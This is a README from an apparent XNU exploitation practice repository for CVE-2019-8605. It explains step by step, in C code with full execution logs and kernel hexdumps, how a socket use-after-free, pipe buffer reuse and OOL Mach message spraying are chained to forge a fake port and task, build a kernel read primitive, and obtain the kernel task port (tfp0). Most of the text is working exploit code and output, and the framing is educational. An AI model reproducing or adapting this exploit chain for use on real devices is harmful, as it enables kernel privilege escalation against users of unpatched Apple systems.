

# fakeport_krw_observe (CVE-2019-8605)

This repository
checks how the pipe buffer is updated via hex dump
to prepare a fake port.

Let's revisit the summary of “[3. Implementing Kernel Read/Write via Fake Port](https://github.com/wh1te4ever/xnu_1day_practice/blob/main/CVE-2019-8605/README.md#3-implementing-kernel-readwrite-via-fake-port)”:


1. Leak your own `self_port_address` to obtain:
   - `self_task_address`
   - `ipc_space_kernel`
2. Use the `pipe` function to allocate a pair of pipe handles (`fds`) for inter-process communication.
   - Using the proc structure info included in `self_task_address`, you can find the actual address of the pipe buffer allocated in the kernel (`pipe_buffer_address`).
   - `pipe` creates a pair of file descriptors for inter-process read/write, and allocates a buffer in the kernel for read/write operations.
3. Combine the IOSurface spray technique with Socket UAF to free the buffer at `pipe_buffer_address`.
   - This allows you to obtain a freed pipe buffer area.
4. Create a Mach port with send rights, and use OOL message spraying to inject these ports into the freed pipe buffer.
   - The kernel recognizes this buffer as a valid port array.
5. Forge a fake port and fake task, and overwrite the first 8 bytes of the pipe buffer with the address of the fake port.
   - This gives you a controllable IPC port and task with send rights.
6. Receive the previously sent OOL message, and obtain the port array used for spraying.
   - At this point, `ports[0]` is replaced with your fake port, giving you full control.
7. Manipulate this fake port to obtain a stable kernel read primitive.
   - Use this to enumerate kernel processes and obtain the kernel's `vm_map`.
8. Assign the obtained kernel `vm_map` to the fake port, making it a full kernel task port and granting tfp0 privileges.

`pipefds[0], pipefds[1]` are the read/write pipe buffers that will be freed by the `free_via_uaf` function, which combines IOSurface spray and Socket UAF, after the kernel address of `pipe_buffer` is found.

`port_fds[0], port_fds[1]` are the read/write pipe buffers that will contain the fake port and fake task data.

First, 8 bytes are read from `pipefds` so that the first port (our fake port) can be easily read later.

```c
int *pipefds = NULL;
uint8_t *pipebuf;

...

int main(int argc, char *argv[], char *envp[]) {
...
    size_t pipebuf_size = 0x10000;
    pipefds = create_pipes();
    pipebuf = (uint8_t *)malloc(pipebuf_size);
    memset(pipebuf, 0, pipebuf_size); 
    
    write(pipefds[1], pipebuf, pipebuf_size); // do write() to allocate the buffer on the kernel
    read(pipefds[0], pipebuf, pipebuf_size); // do read() to reset buffer position
    write(pipefds[1], pipebuf, 8); // write 8 bytes so later we can read the first 8 bytes (used to verify if spraying worked)

    // second pipe, used for our fake port
    int port_fds[2] = {-1, -1};
    ret = pipe(port_fds);
    if (ret) {
        printf("[-] failed to create pipe\n");
        goto err;
    }
...
```

Next, the contents of the fake port and fake task are constructed.

The fake task is placed immediately after the fake port.

These forged contents are written to the `port_fds` pipe.

```c
// create fake port and fake task, put fake_task right after fakeport
    kport_t *fakeport = malloc(sizeof(kport_t) + 0x600);
    ktask_t *fake_task = (ktask_t *)((uint64_t)fakeport + sizeof(kport_t));
    bzero((void *)fakeport, sizeof(kport_t) + 0x600);

    fake_task->ref_count = 0xff;
    
    fakeport->ip_bits = IO_BITS_ACTIVE | IKOT_TASK;
    fakeport->ip_references = 0xd00d;
    fakeport->ip_lock.type = 0x11;
    fakeport->ip_messages.port.receiver_name = 1;
    fakeport->ip_messages.port.msgcount = 0;
    fakeport->ip_messages.port.qlimit = MACH_PORT_QLIMIT_LARGE;
    fakeport->ip_messages.port.waitq.flags = mach_port_waitq_flags();
    fakeport->ip_srights = 99;
    fakeport->ip_kobject = 0;
    fakeport->ip_receiver = ipc_space_kernel;

    //SMAP
    write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);
    read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);
```

Using the vulnerability and the `rk64_via_uaf` function,
you can access from the file descriptor to the kernel's pipe buffer.

```c
#define rk64_check(addr) ({ uint64_t r; r = rk64_via_uaf(addr); if (!r) { usleep(100); r = rk64_via_uaf(addr); if (!r) { printf("[-] failed to read from '"#addr"'\n");}}; r;})

    uint64_t task = rk64_check(self_port_addr + 0x68);  //p/x offsetof(struct ipc_port, kdata.kobject)
    uint64_t proc = rk64_check(task + 0x380);   //p/x offsetof(struct task, bsd_info)
    uint64_t p_fd = rk64_check(proc + 0xe8);   // p/x offsetof(struct proc, p_fd)
    uint64_t fd_ofiles = rk64_check(p_fd + 0x0);    //p/x offsetof(struct filedesc, fd_ofiles)
    
    uint64_t fproc = rk64_check(fd_ofiles + pipefds[0] * 8);
    uint64_t f_fglob = rk64_check(fproc + 0x8); //p/x offsetof(struct fileproc, f_fglob)
    uint64_t fg_data = rk64_check(f_fglob + 0x38);  //p/x offsetof(struct fileglob, fg_data)
    uint64_t pipe_buffer = rk64_check(fg_data + 0x10);  //p/x offsetof(struct pipebuf, buffer)
    INFO("pipe buffer: 0x%llx\n", pipe_buffer);

    uint64_t port_fg_data = 0;
    uint64_t port_pipe_buffer = 0;
    
    fproc = rk64_check(fd_ofiles + port_fds[0] * 8);
    f_fglob = rk64_check(fproc + 0x8); //p/x offsetof(struct fileproc, f_fglob)
    port_fg_data = rk64_check(f_fglob + 0x38);  //p/x offsetof(struct fileglob, fg_data)
    port_pipe_buffer = rk64_check(port_fg_data + 0x10);  //p/x offsetof(struct pipebuf, buffer)
    printf("[*] second pipe buffer: 0x%llx\n", port_pipe_buffer);
```

The pipe obtained from the `port_fds` pipe
is updated so that `fakeport->ip_kobject` points to `port_pipe_buffer + sizeof(kport_t)` to correctly point to the fake task.

```c
    printf("[*] !!! our port_pipe_buffer: 0x%llx !!! \n", port_pipe_buffer);
    hsp4_khexdump(port_pipe_buffer, sizeof(kport_t) + 0x600);

    // align ip_kobject at our fake task, so the address of fake port + sizeof(kport_t)
    fakeport->ip_kobject = port_pipe_buffer + sizeof(kport_t);

    // update our pipe buffer
    write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);

    printf("[*] !!! our updated port_pipe_buffer: 0x%llx !!!\n", port_pipe_buffer);
    hsp4_khexdump(port_pipe_buffer, sizeof(kport_t) + 0x600);
```



Next, spray Mach OOL Messages.

Heap spray is performed using Mach OOL messages to obtain a controllable `ipc_port`.

A message of the same size as the pipe buffer (0x10000) is used so that the port address is filled exactly into the pipe buffer..

To check if spraying succeeded, read 8 bytes from the pipe buffer.

```c
// get its kernel address
    uint64_t target_addr = find_port_via_uaf(target, MACH_MSG_TYPE_COPY_SEND);
    if (!target_addr) {
        printf("[-] failed to leak target port address\n");
        goto err;
    }
    
    // free the first pipe buffer
    ret = free_via_uaf(pipe_buffer);
    if (ret) {
        printf("[-] failed to free pipe buffer\n");
        goto err;
    }

    // reallocate it while filling it with a mach message containing send rights to our target port
    mach_port_t p = MACH_PORT_NULL;
    for (int i = 0; i < 10000; i++) {
        
        // pipe is 0x10000 bytes so make 0x10000/8 pointers and save result as we'll use later
        p = fill_kalloc_with_port_pointer(target, 0x10000/8, MACH_MSG_TYPE_COPY_SEND);
        
        // check if spraying worked by reading first 8 bytes
        uint64_t addr;
        read(pipefds[0], &addr, 8);
        if (addr == target_addr) { // if we see the address of our port, it worked
            break;
        }
        write(pipefds[1], &addr, 8); // reset buffer position
        
        mach_port_destroy(mach_task_self(), p); // spraying didn't work, so free port
        p = MACH_PORT_NULL;
    }

    if (!p) {
        printf("[-] spraying failed!");
        goto err;
    }
```

If the target port kernel address and the address read from the pipe buffer match, spraying succeeded.

Write the 8 bytes of the pipe buffer kernel address of `port_fds` (containing the fake port and fake task) to `pipe_fds`.

Port handles include rights information,
so by writing 8 bytes, you have changed the handle of the first port in the pipe buffer.

```c
    INFO("!!! spraying worked, now the pipe buffer is filled with pointers to our target port !!! \n");
    hsp4_khexdump(pipe_buffer, 0x30);

    INFO("!!! overwrite the first pointer with our second pipe buffer, which contains the fake port !!!\n");
    write(pipefds[1], &port_pipe_buffer, 8);
    hsp4_khexdump(pipe_buffer, 0x30);

    uint64_t second_pipe_buffer = hsp4_kread64(pipe_buffer);
    INFO("!!! our second pipe buffer(==port_pipe_buffer) is 0x%llx == 0x%llx !!!\n", second_pipe_buffer, port_pipe_buffer);
    hsp4_khexdump(second_pipe_buffer, sizeof(kport_t) + 0x600);
```


Now, when you receive the OOL message,
you obtain the port handle corresponding to the fake port, not the previous target port handle.

Implement a stable kernel read primitive using the `pid_for_task` function.

The address to be read requires a slight offset calculation (-0x60).

```c
    // receive the message from fill_kalloc_with_port_pointers back, since that message contains a send right and we overwrote the pointer of the first port, we now get a send right to the fake port!
    struct ool_msg *msg = malloc(0x1000);
    ret = mach_msg(&msg->hdr, MACH_RCV_MSG, 0, 0x1000, p, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
    if (ret) {
        free(msg);
        printf("[-] mach_msg() failed: %d (%s)\n", ret, mach_error_string(ret));
        goto err;
    }
    
    mach_port_t *received_ports = msg->ool_ports.address;
    mach_port_t our_port = received_ports[0]; // fake port!
    free(msg);

    uint64_t *read_addr_ptr = (uint64_t *)((uint64_t)fake_task + 0x380);   // 0x380 = p/x offsetof(struct task, bsd_info)

    //0x60 = p/x offsetof(struct proc, p_pid)
#define kr32(addr, value)\
    read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);\
    *read_addr_ptr = addr - 0x60;\  
    write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);\
    value = 0x0;\
    ret = pid_for_task(our_port, (int *)&value);
    
    uint32_t read64_tmp;
#define kr64(addr, value)\
    kr32(addr + 0x4, read64_tmp);\
    kr32(addr, value);\
    value = value | ((uint64_t)read64_tmp << 32)
    

 
    uint64_t struct_task;
    kr64(self_port_addr + 0x68, struct_task);   //0x68 = p/x offsetof(struct ipc_port, kdata.kobject)
    INFO("self_port_addr + 0x68 = 0x%llx\n", self_port_addr + 0x68);
    hsp4_khexdump(second_pipe_buffer, sizeof(kport_t) + 0x600);
```


Based on the current process's task_port, enumerate all processes to obtain the kernel task's `vm_map`.

Then, write the kernel task's `vm_map` to the fake port to obtain the kernel task port.

```c
    uint64_t kernel_vm_map = 0;
    
    while (struct_task != 0) {
        uint64_t bsd_info;
        kr64(struct_task + 0x380, bsd_info);    // 0x380 = p/x offsetof(struct task, bsd_info)
        if (!bsd_info) {
            printf("[-] kernel read failed!\n");
            goto err;
        }
        
        uint32_t pid;
        kr32(bsd_info + 0x60, pid); //0x60 = p/x offsetof(struct proc, p_pid)
        
        if (pid == 0) {
            uint64_t vm_map;
            kr64(struct_task + 0x20, vm_map);   //0x20 = p/x offsetof(struct task, map)
            if (!vm_map) {
                printf("[-] kernel read failed!\n");
                goto err;
            }
            
            kernel_vm_map = vm_map;
            break;
        }
        
        kr64(struct_task + 0x30, struct_task); // 0x30 = p/x offsetof(struct task, tasks.prev)
    }
    
    if (!kernel_vm_map) {
        printf("[-] failed to find kernel's vm_map\n");
        goto err;
    }
    
    printf("[i] kernel_vm_map: 0x%llx\n", kernel_vm_map);
        
    read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);

    fake_task->ip_lock.data = 0x0;
    fake_task->ip_lock.type = 0x22;
    fake_task->ref_count = 100;
    fake_task->active = 1;
    fake_task->map = kernel_vm_map;
    *(uint32_t *)((uint64_t)fake_task + 0xd8) = 1; // 0xd8 = p/x offsetof(struct task, itk_self)

    write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);

    INFO(" !!! STEALED that kernel task port !!!, khexdumping second_pipe_buffer again\n");
    hsp4_khexdump(second_pipe_buffer, sizeof(kport_t) + 0x600);
    
    tfp0 = our_port;
```


- Full execution result

```
ret: 0x0, hsp4: 0xa03
kext_name: com.apple.kec.corecrypto
kext_addr_slid: 0xffffff7f9dac7000
get_kbase ret: 0, kbase: 0xffffff801cc00000, kslide: 0x1ca00000
[*] IOSurface_init success, IOSurface_id=0x1
[*] our task port: 0xffffff802beda000
[*] ipc_space_kernel: 0xffffff8028569200
[*] pipe buffer: 0xffffff8087cf4000
[*] second pipe buffer: 0xffffff802f934000
[*] !!! spraying worked, now the pipe buffer is filled with pointers to our target port !!! 
=============================
[0xffffff8087cf4000+0x000] F0 73 E9 29 80 FF FF FF  F0 73 E9 29 80 FF FF FF  |  .s.).....s.)....
[0xffffff8087cf4000+0x010] F0 73 E9 29 80 FF FF FF  F0 73 E9 29 80 FF FF FF  |  .s.).....s.)....
[0xffffff8087cf4000+0x020] F0 73 E9 29 80 FF FF FF  F0 73 E9 29 80 FF FF FF  |  .s.).....s.)....
=============================
[*] !!! overwrite the first pointer with our second pipe buffer, which contains the fake port !!!
=============================
[0xffffff8087cf4000+0x000] 00 40 93 2F 80 FF FF FF  F0 73 E9 29 80 FF FF FF  |  .@./.....s.)....
[0xffffff8087cf4000+0x010] F0 73 E9 29 80 FF FF FF  F0 73 E9 29 80 FF FF FF  |  .s.).....s.)....
[0xffffff8087cf4000+0x020] F0 73 E9 29 80 FF FF FF  F0 73 E9 29 80 FF FF FF  |  .s.).....s.)....
=============================
[*] !!! our second pipe buffer(==port_pipe_buffer) is 0xffffff802f934000 == 0xffffff802f934000 !!!
=============================
[0xffffff802f934000+0x000] 02 00 00 80 0D D0 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x010] 11 00 00 00 00 00 00 00  66 00 00 00 00 00 00 00  |  ........f.......
[0xffffff802f934000+0x020] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x030] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x040] 00 00 00 00 00 00 00 00  00 00 00 00 01 00 00 00  |  ................
[0xffffff802f934000+0x050] 00 00 00 04 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x060] 00 92 56 28 80 FF FF FF  A8 40 93 2F 80 FF FF FF  |  ..V(.....@./....
[0xffffff802f934000+0x070] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x080] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x090] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x0a0] 63 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  c...............
[0xffffff802f934000+0x0b0] 00 00 00 00 00 00 00 00  FF 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x0c0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x0d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x0e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x0f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x100] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x110] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x120] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x130] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x140] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x150] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x160] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x170] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x180] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x190] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1a0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1b0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1c0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x200] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x210] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x220] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x230] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x240] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x250] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x260] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x270] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x280] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x290] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2a0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2b0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2c0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x300] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x310] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x320] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x330] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x340] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x350] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x360] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x370] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x380] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x390] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3a0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3b0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3c0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x400] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x410] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x420] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x430] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x440] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x450] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x460] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x470] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x480] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x490] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4a0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4b0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4c0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x500] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x510] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x520] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x530] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x540] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x550] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x560] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x570] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x580] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x590] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5a0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5b0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5c0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x600] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x610] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x620] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x630] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x640] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x650] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x660] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x670] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x680] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x690] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x6a0] 00 00 00 00 00 00 00 00                           |  ........
=============================
[*] self_port_addr + 0x68 = 0xffffff802beda068
=============================
[0xffffff802f934000+0x000] 02 00 00 80 0D D0 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x010] 11 00 00 00 00 00 00 00  66 00 00 00 00 00 00 00  |  ........f.......
[0xffffff802f934000+0x020] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x030] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x040] 00 00 00 00 00 00 00 00  00 00 00 00 01 00 00 00  |  ................
[0xffffff802f934000+0x050] 00 00 00 04 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x060] 00 92 56 28 80 FF FF FF  A8 40 93 2F 80 FF FF FF  |  ..V(.....@./....
[0xffffff802f934000+0x070] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x080] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x090] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x0a0] 63 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  c...............
[0xffffff802f934000+0x0b0] 00 00 00 00 00 00 00 00  FF 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x0c0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x0d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x0e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x0f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x100] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x110] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x120] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x130] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x140] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x150] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x160] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x170] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x180] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x190] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1a0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1b0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1c0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x200] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
